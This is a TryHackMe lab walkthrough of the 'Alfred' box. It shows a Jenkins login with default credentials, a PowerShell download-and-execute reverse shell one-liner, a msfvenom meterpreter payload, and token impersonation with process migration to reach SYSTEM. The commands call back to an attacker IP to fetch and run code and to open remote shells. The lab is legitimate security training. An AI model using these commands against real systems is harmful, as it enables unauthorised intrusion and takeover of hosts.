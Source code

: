 ﻿---
title: 'Alfred - TryHackMe Walkthrough'
date: 2020-07-02 00:00:00
featured_image: '/images/posts/THMlogo.png'
excerpt: Exploit Jenkins to gain an initial shell, then escalate the privileges by exploiting Windows authentication tokens.
---

![](/images/posts/alfred-jenkins.png)

### Goal
Exploit Jenkins to gain an initial shell, then escalate the privileges by exploiting Windows authentication tokens.

### Reconnaissance
The default page of the web server on port 80 is showing a image of Bruce Wyne and a donations email. But nothing else.

With the help on nmap, lets see what ports are open and services are running on the victim machine.

```bash
    $ nmap -p- -A 10.10.86.199

    PORT     STATE SERVICE            VERSION
    80/tcp   open  http               Microsoft IIS httpd 7.5
    | http-methods:
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/7.5
    |_http-title: Site doesn't have a title (text/html).
    3389/tcp open  ssl/ms-wbt-server?
    |_ssl-date: 2020-07-02T21:47:32+00:00; 0s from scanner time.
    8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
    | http-robots.txt: 1 disallowed entry
    |_/
    |_http-server-header: Jetty(9.4.z-SNAPSHOT)
    |_http-title: Site doesn't have a title (text/html;charset=utf-8).
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

- On port 80, we can see Microsoft IIS 7.5 web server is running.  
- 8080 - Another HTTP server on Jetty 9.4 and a robots.txt is there which can help. By visiting on port 8080, there is a Jenkins service running.  
- 3389 - Looks RDP port is open.  
- Operating System: Windows  

### Logging into Jenkins
Thought to brute force using different payloads, but while trying to capture the HTTP request, the *admin:admin* credentials worked.

### Getting a reverse shell
After looking around the tool, for executing the command on the underlying machine, found it under project --> configure --> Build.
As this is a Windows operating system, framed a powershell utility which can get executed and opens a reverse shell.
For this,
- Download the powershell code which opens a reverse shell from [Git.](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)  
- Start a simple webserver using `python3 -m http.server` in the same directory. So the victim will be able to download the powershell code file.
- Frame the command that needs to get executed on the operating system. In this case, I will listen for remote shell on 8001 port.

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.2.18.4:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.2.18.4 -Port 8001
```

- Open netcat in another terminal and listen on 8001 port. `nc -lnvp 8001`
- Navigate to Jenkins and goto, project configuration and paste the powershell command that was framed above under build. So our command will become part of build process.
- Build the project using "Build now" and the victim is connected to http server and downloaded the reverse shell code and then a reverse shell in the netcat server.
- The reverse shell is opened with user alfred\bruce and have below privileges enabled:

```bash
    PS C:\Users\bruce\Desktop> whoami /priv

    PRIVILEGES INFORMATION
    ----------------------

    Privilege Name                  Description                               State   
    =============================== ========================================= ========
    SeDebugPrivilege                Debug programs                            Enabled
    SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled
    SeImpersonatePrivilege          Impersonate a client after authentication Enabled
    SeCreateGlobalPrivilege         Create global objects                     Enabled

```
- The flag is under  `C:\Users\bruce\Desktop\user.txt` as *79007a09481--------1321abd9ae2a0*.


### Getting a Meterpreter shell
For much convenience and to work on privilege escalation, lets get a Meterpreter shell.
- Create a payload file which opens a reverse shell and save it in the same place where the webserver is running, so the victim will be able to download.

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.2.18.4 LPORT=8002 -f exe -o shell.exe
```

- Create a reverse shell listener using Metasploit with exploit/multi/handler and having a PAYLOAD windows/meterpreter/reverse_tcp LHOST 10.2.18.4 LPORT 8002.

```bash
msf5 exploit(multi/handler) > run  
[*] Started reverse TCP handler on 10.2.18.4:8002
```

- Get this shell.exe downloaded to victim machine by executing the powershell command on the reverse shell that was already opened and start the process.

```bash
PS C:\Users\bruce\Desktop> powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.2.18.4:8000/shell.exe','shell.exe')"
PS C:\Users\bruce\Desktop> dir


Directory: C:\Users\bruce\Desktop

Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---          7/2/2020   5:01 PM      73802 shell.exe                         
-a---        10/25/2019   3:22 PM         32 user.txt                          


PS C:\Users\bruce\Desktop> Start-Process "shell.exe"
```

- The metasploit now will open a meterpreter shell:

```

    meterpreter > sysinfo
    Computer        : ALFRED
    OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows
    meterpreter >
```

- `load incognito` module in meterpreter.
- List all the tokens that are available for the user, using `list_tokens -g` and we can see the user has a delegation token of BUILTIN\Administrators.
- Lets impersonate as administrator using `impersonate_token "BUILTIN\Administrators"`.
- Verify, by using `getuid`  

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
- Though we have privileged user, due to impersonating we will not be able to access complete system due to windows security.  To test this, goto C:\Windows\system32\config directory and will see only files which have full permissions.

```
meterpreter > dir
Listing: C:\Windows\system32\config
===================================

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40777/rwxrwxrwx  0     dir   2009-07-13 23:20:14 -0400  Journal
40777/rwxrwxrwx  0     dir   2009-07-13 23:20:14 -0400  RegBack
40777/rwxrwxrwx  0     dir   2009-07-13 23:20:14 -0400  TxR
40777/rwxrwxrwx  0     dir   2009-07-13 23:20:14 -0400  systemprofile
```

- We need migrate our process (shell.exe) whose pid is 1440, to a more stable and equally privileged process by checking the processes that are running on the victim using ps.

```
1440  2848  shell.exe             x86   0        alfred\bruce                  C:\Users\bruce\Desktop\shell.exe
```

```
meterpreter > ps
(ommitted other entries..)
668   580   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe

meterpreter > migrate 668
[*] Migrating from 1440 to 668...
[*] Migration completed successfully.
meterpreter > ls -lrt
Listing: C:\Windows\system32\config
===================================

```

- Now we can see all the files under config including our flag root.txt, which has the value *dff0f748678--------25a45b8046b4a*.
